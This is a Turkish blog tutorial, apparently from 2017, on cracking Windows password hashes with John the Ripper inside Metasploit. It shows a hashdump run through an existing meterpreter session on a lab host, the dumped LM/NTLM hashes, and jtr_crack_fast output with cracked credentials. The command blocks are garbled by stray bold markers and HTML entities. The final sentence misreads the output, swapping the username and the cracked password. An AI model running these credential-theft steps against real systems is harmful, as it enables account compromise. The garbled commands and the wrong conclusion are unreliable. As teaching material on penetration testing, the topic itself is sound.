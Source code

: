 ```yaml
---
draft: false

title:  'MSF İçinde John The Ripper'
date: '2017-06-05T13:42:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.' 
 
url:  /tr/msf-icinde-john-the-ripper/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## John the Ripper



John The Ripper programı, karmaşık algoritmalı parolaları çözmek için kullanılan bir programdır. Bir takım kelime listelerini kullanarak hash olarak kaydedilmiş kodları çözmeye çalışır.



Metasploit içerisinde de John The Ripper kullanabilirsiniz. Burada kullanılacak John the Ripper, basit algoritmalarla ilgilenir. Çok karmaşık ve ileri düzey hash kodları için Metasploit dışında çalışmanız gerektiğini belirtelim. Metasploit içindeki John the Ripper, sadece LM veya NTLM hash kodlarını çözmek için başlangıç düzeyinde işlem yapmanıza yarar. Bir örnekle görelim.



Öncelikle hedef bilgisayarda meterpreter oturum açtığımızı kabul ediyoruz. `session 1` olarak aktif halde olan oturum için `post/windows/gather/hashdump` modülünü aktif hale getirip hash bilgilerini alalım.


```bash
msf auxiliary**(**handler**)** **&gt;** use post/windows/gather/hashdump
msf post**(**hashdump**)** **&gt;** set session 1
session **=&gt;** 1
 
msf post**(**hashdump**)** **&gt;** run

**[*********]** Obtaining the boot key...
**[*********]** Calculating the hboot key using SYSKEY bffad2dcc991597aaa19f90e8bc4ee00...
**[*********]** Obtaining the user list and keys...
**[*********]** Decrypting user keys...
**[*********]** Dumping password hashes...


Administrator:500:cb5f77772e5178b77b9fbd79429286db:b78fe104983b5c754a27c1784544fda7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:810185b1c0dd86dd756d138f54162df8:7b8f23708aec7107bfdf0925dbb2fed7:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:8be4bbf2ad7bd7cec4e1cdddcd4b052e:::
rAWjAW:1003:aad3b435b51404eeaad3b435b51404ee:117a2f6059824c686e7a16a137768a20:::
rAWjAW2:1004:e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c:::


**[*********]** Post module execution completed
```



Hash bilgilerini ekranda görebilirsiniz. Şimdi `auxiliary/analyze/jtr_crack_fast` modülünü kullanalım.


```bash
msf post**(**hashdump**)** **&gt;** use auxiliary/analyze/jtr_crack_fast
msf auxiliary**(**jtr_crack_fast**)** **&gt;** run

**[*********]** Seeded the password database with 8 words...

guesses: 3  time: 0:00:00:04 DONE **(**Sat Jul 16 19:59:04 2011**)**  c/s: 12951K  trying: WIZ1900 - ZZZ1900
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
**[*********]** Output: D                **(**cred_6:2**)**
**[*********]** Output: PASSWOR          **(**cred_6:1**)**
**[*********]** Output: GG               **(**cred_1:2**)**
Warning: mixed-case charset, but the current hash type is **case**-insensitive;
some candidate passwords may be unnecessarily tried more than once.
guesses: 1  time: 0:00:00:05 DONE **(**Sat Jul 16 19:59:10 2011)  c/s: 44256K  trying: **||**V**}** - **||**|**}**
Warning: passwords printed above might be partial and not be all those cracked
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
**[*********]** Output: Remaining 4 password hashes with no different salts
**[*********]** Output: **(**cred_2**)**
guesses: 0  time: 0:00:00:00 DONE **(**Sat Jul 16 19:59:10 2011**)**  c/s: 6666K  trying: 89093 - 89092
**[*********]** Output: Loaded 7 password hashes with no different salts **(**LM DES **[**128/128 BS SSE2]**)**
**[*********]** Output: Remaining 3 password hashes with no different salts
guesses: 1  time: 0:00:00:11 DONE **(**Sat Jul 16 19:59:21 2011**)**  c/s: 29609K  trying: zwingli1900 - password1900
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
**[*********]** Output: password         **(**cred_6**)**
guesses: 1  time: 0:00:00:05 DONE **(**Sat Jul 16 19:59:27 2011**)**  c/s: 64816K  trying: **||**|**}**
Use the "--show" option to display all of the cracked passwords reliably
**[*********]** Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
**[*********]** Output: Remaining 5 password hashes with no different salts
**[*********]** Output: **(**cred_2**)**
guesses: 0  time: 0:00:00:00 DONE **(**Sat Jul 16 19:59:27 2011**)**  c/s: 7407K  trying: 89030 - 89092
**[*********]** Output: Loaded 6 password hashes with no different salts **(**NT MD4 **[**128/128 SSE2 + 32/32]**)**
**[*********]** Output: Remaining 4 password hashes with no different salts

**[**+] Cracked: Guest: **(**192.168.184.134:445**)**
**[**+] Cracked: rAWjAW2:password **(**192.168.184.134:445**)**
**[*********]** Auxiliary module execution completed
msf auxiliary**(**jtr_crack_fast**)** **&gt;**
```



Görüldüğü gibi `192.168.184.134` IP adresinde `Guest` kullanıcısı için parola `rAWjAW2` olarak bulundu.
